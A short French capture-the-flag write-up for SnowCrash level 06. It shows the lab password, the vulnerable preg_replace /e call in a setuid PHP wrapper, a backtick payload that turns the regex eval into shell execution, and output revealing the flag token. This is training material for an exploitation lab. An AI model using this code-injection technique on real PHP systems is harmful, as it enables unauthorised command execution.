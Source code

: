 # LEVEL 06

### Reconnaissance

Lorsqu'on se connecte au level06, avec le password viuaaale9huek52boumoomioc
On a 2 fichiers:
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

- un binaire (level06)
- un fichier php (level06.php)

### Exploitation

En analysant le fichier php on peux voir une vulnérabilitée:

```
PREG_REPLACE_EVAL : /e --> [...]$a = preg_replace("/(\[x (.*)\])/e"[...]
```

Il nous suffit donc d'inséré un code qui poura etre évaluer:

```
level06@SnowCrash:~$ vim /tmp/exploit
// entrer ce code
[x ${`$z`}]
```

- Explication
```
[x        ]	--> code a remplacer sur le preg_replace
${}	    	--> https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex
``		 --> revient a faire un shell_exec() mais avec l'avantage ici de ne pas devoir inseré de quote ni de parenthèse.         https://stackoverflow.com/questions/3115559/exploitable-php-functions
```

```
level06@SnowCrash:~$ ./level06 /tmp/exploit getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)
